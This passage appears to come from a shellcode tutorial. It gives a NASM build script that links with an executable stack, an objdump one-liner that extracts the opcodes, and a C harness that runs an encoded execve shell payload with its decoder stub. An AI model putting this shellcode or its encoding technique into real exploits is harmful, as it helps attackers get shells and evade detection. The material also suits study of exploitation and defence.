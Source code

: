 The shellcode will be assembled and linked using the following bash script

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
</pre>

The following command will produce the final shellcode

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
objdump -d ./decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
</pre>

The produced shellcode will be delivered and executed using the following program

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \

"\xeb\x39\x5e\x56\x31\xdb\x31\xc9\x31\xd2\xb2\x32\xc0\x06\x04\xf6\x16\x80\x06\x02\x80\x36\x2c\x46\x38\xd1\x74\x04\xfe\xc1\xeb\xec\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xc9\x38\xd1\x74\x12\x8a\x5c\x06\x01\x88\x1f\x47\xfe\xc1\x04\x02\xeb\xef\xe8\xc2\xff\xff\xff\x4e\xc1\x51\x2f\x58\x3c\xdb\xac\xef\x82\xef\x1c\x2a\xd9\xdb\x90\xdb\x6b\xef\x61\x3b\x1c\xcb\x24\xfb\xd6\xc5\x50\x23\xfa\x58\x9c\xc5\xb1\x33\x97\x28\x31\xc5\xaa\x43\xf9\x56\xf4\xad\xc2\x02\x16\x55\xe3";

int main()
{

printf("Shellcode Length: %d\n", strlen(code));

int (*ret)() = (int(*)())code;

ret();
}
```

<p style="text-align:justify;">
compiling and running the program will give the following result which is the execution of the&nbsp; /bash/sh command using the execve shellcode.
</p>
